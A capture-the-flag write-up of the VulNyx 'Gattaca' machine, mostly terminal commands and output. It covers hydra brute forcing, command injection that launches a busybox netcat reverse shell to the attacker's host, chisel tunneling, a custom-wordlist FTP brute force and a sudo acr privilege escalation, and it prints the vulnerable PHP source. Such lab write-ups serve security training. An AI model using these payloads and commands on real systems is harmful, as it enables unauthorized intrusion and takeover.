




# CTF Penetration Testing

## Platform: VulNyx

### Machine: [Gattaca](https://vulnyx.com/#gattaca)

- Machine type:  Linux
- Machine difficulty: 🟥 Hard

#### Skills Learned

- **Login Brute Forcing** - Default Credentials
- **Command Injection**
- **HTTP Verb Tampering**
- **Login Brute Forcing** - Custom Wordlists
- **Linux Privilege Escalation** - `sudo` Rights Abuse

#### Machine Writeup

```
┌──(nabla㉿kali)-[~]
└─$ ifconfig eth0
eth0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 192.168.247.128  netmask 255.255.255.0  broadcast 192.168.247.255

[SNIP]
```

```
┌──(nabla㉿kali)-[~]
└─$ fping 192.168.247.225

192.168.247.225 is alive

┌──(nabla㉿kali)-[~]
└─$ sudo nmap -Pn -sS -p- 192.168.247.225 -T5

[SNIP]

PORT   STATE    SERVICE
21/tcp filtered ftp
80/tcp open     http
```

```
┌──(nabla㉿kali)-[~]
└─$ whatweb http://192.168.247.225

http://192.168.247.225 [200 OK] Apache[2.4.57], Bootstrap, Country[RESERVED][ZZ], HTML5, HTTPServer[Debian Linux][Apache/2.4.57 (Debian)], IP[192.168.247.225], JQuery, Script[text/javascript], Title[Gattaca], X-UA-Compatible[IE=edge]
```






**Login Brute Forcing**

```
┌──(nabla㉿kali)-[~]
└─$ head /usr/share/wordlists/seclists/Passwords/Default-Credentials/ftp-betterdefaultpasslist.txt

anonymous:anonymous
root:rootpasswd
root:12hrs37
ftp:b1uRR3
admin:admin
localadmin:localadmin
admin:1234
apc:apc
admin:nas
Root:wago

┌──(nabla㉿kali)-[~]
└─$ hydra -C /usr/share/wordlists/seclists/Passwords/Default-Credentials/ftp-betterdefaultpasslist.txt 192.168.247.225 http-get -s 80 /cards.php -t 50

[SNIP]

[80][http-get] host: 192.168.247.225   login: admin   password: admin12345
```

```javascript
admin:admin12345
```




**Command Injection**


**HTTP Verb Tampering**



```
┌──(nabla㉿kali)-[~]
└─$ curl -s 'http://192.168.247.225/cards.php?filename=adenine.txt;whoami' -X GET --user 'admin:admin12345' | html2text
  
[SNIP]

www-data
```

```
┌──(nabla㉿kali)-[~]
└─$ nc -lnvp 1337                                                                                                     
listening on [any] 1337 ...

[CONTINUE]
```


```
┌──(nabla㉿kali)-[~]
└─$ payload="busybox+nc+192.168.247.128+1337+-e+/bin/bash"; curl -s "http://192.168.247.225/cards.php?filename=adenine.txt;$payload" -X GET --user 'admin:admin12345'
```

```
[CONTINUE]

connect to [192.168.247.128] from (UNKNOWN) [192.168.247.225] 56516

id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

```
ls -l

total 44
-rw-r--r-- 1 www-data www-data 4369 May 12  2024 about.html
drwxr-xr-x 2 root     root     4096 May  8  2024 cards
-rw-r--r-- 1 root     root     4159 May  8  2024 cards.php
drwxr-xr-x 2 www-data www-data 4096 May  8  2024 css
drwxr-xr-x 4 www-data www-data 4096 Mar 16  2018 font-awesome
drwxr-xr-x 3 www-data www-data 4096 Mar 16  2018 fonts
drwxr-xr-x 3 www-data www-data 4096 May  8  2024 images
-rw-r--r-- 1 www-data www-data 3143 May  8  2024 index.html
drwxr-xr-x 2 www-data www-data 4096 Mar 16  2018 js
```

```php
<?php
$folder = "/var/www/gattaca/cards";
$files = scandir($folder);
$files = array_diff($files, array('.', '..'));
foreach ($files as $files) {
echo "<li>$files</li>";
}
if (isset($_REQUEST['filename'])) {
if (!preg_match('/[^A-Za-z0-9. _-]/', $_POST['filename'])) {
	  $output = shell_exec("cat " . $_REQUEST['filename']);
	  echo "$output";
} else {
		echo "Malicious Request Denied!";
}
}
?>
```

```
cat /var/www/ftppolicy.txt

** IMPORTANT **
Remember, when changing your password it must contain these requirements:

1. Must be 8 characters or longer
2. Must contain numbers
3. Must contain special characters


Don't waste time with v.freeman and rockyou.txt
```

```
ls -la /home/

[SNIP]

drwxr-xr-x  3 i.cassini i.cassini 4096 May  8  2024 i.cassini
drwxr-xr-x  2 v.freeman v.freeman 4096 May  8  2024 v.freeman
```

```
ss -tunlp

Netid State  Recv-Q Send-Q Local Address:Port Peer Address:PortProcess
tcp   LISTEN 0      32           0.0.0.0:21        0.0.0.0:*          
tcp   LISTEN 0      511                *:80              *:* 
```

```
┌──(nabla㉿kali)-[~]
└─$ ./chisel_linux server --reverse --port 7331

2025/06/12 11:31:15 server: Reverse tunnelling enabled
2025/06/12 11:31:15 server: Fingerprint W3fOCOr80PjohFjLcchorLWXyyCs+it3suAdz8N5aBg=
2025/06/12 11:31:15 server: Listening on http://0.0.0.0:7331

[CONTINUE]
```

```
./chisel_linux client 192.168.247.128:7331 R:21:127.0.0.1:21
```

```
[CONTINUE]

2025/06/12 11:32:45 server: session#1: tun: proxy#R:21=>21: Listening
```

```
┌──(nabla㉿kali)-[~]
└─$ ss -tunlp      

Netid          State           Recv-Q          Send-Q                          Local Address:Port                      Peer Address:Port          Process
tcp           LISTEN          0               4096                                      *:7331                               *:*             users:(("chisel_linux",pid=73115,fd=5))
tcp           LISTEN          0               4096                                      *:21                                 *:*             users:(("chisel_linux",pid=73115,fd=7))
```

```
┌──(nabla㉿kali)-[~]
└─$ sudo nmap -Pn -sSV -p21 localhost -T5

[SNIP]

PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
```

**Login Brute Forcing**

```
┌──(nabla㉿kali)-[~]
└─$ cupp -i

[SNIP]

> First Name: Irene 
> Surname: Cassini

[SNIP]

> Do you want to add some key words about the victim? Y/[N]: N
> Do you want to add special chars at the end of words? Y/[N]: Y
> Do you want to add some random numbers at the end of words? Y/[N]:Y
> Leet mode? (i.e. leet = 1337) Y/[N]: Y

[+] Now making a dictionary...
[+] Sorting list and removing duplicates...
[+] Saving dictionary to irene.txt, counting 5240 words.

┌──(nabla㉿kali)-[~]
└─$ wc -l irene.txt

5239 irene.txt

┌──(nabla㉿kali)-[~]
└─$ grep -E '^.{8,}$' irene.txt | grep -E '[0-9]' | grep -E '[!@#$%^&*]' > irene_filtered.txt

┌──(nabla㉿kali)-[~]
└─$ wc -l irene_filtered.txt

1894 irene_filtered.txt
```

```
┌──(nabla㉿kali)-[~]
└─$ hydra -l 'i.cassini' -P irene_filtered.txt ftp://localhost -f -t 64

[SNIP]

[21][ftp] host: localhost   login: i.cassini   password: 1r3n3!$%
```

```
su i.cassini
Password:

whoami
i.cassini
```

```
cat /home/i.cassini/user.txt

d3eca2e0a0755197605edc2eaa6be710 🚩
```

**Linux Privilege Escalation**

```
sudo -l

[SNIP]

User i.cassini may run the following commands on gattaca:
    (ALL : ALL) NOPASSWD: /usr/bin/acr
```

```
/usr/bin/acr -h

acr: Usage '/usr/bin/acr' [-flags] [file] [args]
  -d         runs in debug mode.
  -D         creates the distribution tarball.
  -e         embed configure.acr into final script as comment.
  -h         show this help.
  -m         generate main Makefile.acr file.
  -n         do not generate the final configure script. (parse only)
  -o [file]  output file (default: configure).
  -p         show progress bar.
  -r         recovery mode. (runs acr-cat)
  -s         strip default code generation.
  -v         show version information.
  -w [num]   cats the configure.acr highlighting the [num] word.
  -x         execute the script directly."

cd /tmp/

touch Makefile && chmod +x Makefile

echo "chmod 4777 /bin/bash" > Makefile

sudo /usr/bin/acr -r Makefile

bash -p

whoami
root
```

```
cat /root/root.txt

bd1061ef36aca528a49f69c00f1feb66 🚩
```


---
---
